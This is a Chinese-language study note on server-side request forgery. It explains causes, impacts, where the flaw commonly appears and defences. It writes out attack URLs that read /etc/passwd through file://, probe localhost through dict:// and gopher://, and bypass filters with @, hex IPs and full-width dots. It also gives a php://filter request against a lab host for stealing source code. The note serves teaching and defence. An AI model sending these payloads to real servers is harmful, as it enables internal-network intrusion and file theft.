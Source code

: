 # SSRF

Server Side Request Forgery

服务端请求伪造

伪造一个请求给到服务端，让服务器去访问

一般情况下，SSRF 攻击到目标是从外部无法访问的内部系统

成因：服务端提供了从其他服务器应用获取数据的功能,但又没有对目标地址做严格过滤与限制

**漏洞原理**

通过控制功能中的发起请求服务来当作跳板来攻击内网中的其他服务。


**漏洞危害**

1. 扫描内网开放服务
2. 向内部任意主机的任意端口发送 payload 来攻击内网服务
3. DOS 攻击（请求大文件，始终保持连接 Keep-Alive Always）
4. 攻击内网 Web 服务，例如直接 SQL 注入，XSS 攻击等
5. 利用 file、gopher、dict 协议读取本地文件，执行命令等


##  漏洞检测

**功能**

假设某个网站有个在线加载远程图片功能
```
https://www.xxx.com/image.php?image=http://www.xyz.com/a.jpg
```

网站请求步骤

1. 用户输入图片地址
2. 请求发送到服务器端解析
3. 服务端请求链接地址端图片数据
4. 获取请求的数据加载到前台显示

*必须是服务端发起请求*

**攻击**

我们可以构造恶意链接

```
https://www.xxx.com/image.php?image=http://127.0.0.1:22
https://www.xxx.com/image.php?image=file:///etc/passwd
https://www.xxx.com/image.php?image=dict://127.0.0.1:22/data:data2
https://www.xxx.com/image.php?image=gopher://127.0.0.1:2233/ test
```

**协议**

不通语言实现的 Web 系统使用的协议可能存在差异

```
PHP：
http, https, file, gopher, phar, dict, ftp, ssh, telnet...
Java:
http, https, file, ftp, jar, netdoc, mailto...
```

## 漏洞出现点

**分享**

通过  url 分享文章，例如如下地址：

```
http://share.xxx.com/index.php?url=http://127.0.0.1
```

**图片的加载与下载**

```
http://image.xxx.com/image.php?http://127.0.0.1
```

图片加载存在于很多编辑器中，编辑器上传图片处，有的是加载远程图片到服务器内


**图片、文章收藏功能**

```
http://www.xxx.com/title.php?title=http://127.0.0.1
```

请求返回的文章如果保存到服务器，可能出现漏洞

**可能出现的关键字**

```
share
wap
url
link
src
source
u
3g
target
display
sourceurl
imageurl
domain
...
```


## 漏洞绕过

部分存在漏洞或者可能产生 SSRF 的功能中做了白名单或黑名单处理

**白名单**

使用特殊字符 `@`

```
?url=www.xxx.com@www.yyy.com
```
有些系统只会识别 `@` 之后的内容


**限制不能使用 IP 地址**

1. 使用段网址绕过
2. 使用进制转换绕过 `ping 0x7f.0.0.1`

**限制只能用 https**

使用短网址绕过

**句号绕过**

```
127。0。0。1
```


**php filter**

```
php://filter
```

例子

```
http://192.168.119.129:8081/vul/ssrf/ssrf_fgc.php?file=php://filter/resource=ssrf.php

# 盗取网站源码
http://192.168.119.129:8081/vul/ssrf/ssrf_fgc.php?file=php://filter/read=convert.base64-encode/resource=ssrf.php
```

## 防御方法

1. 白名单
2. 过滤：内网 IP，不可信域名
3. 禁用其他协议
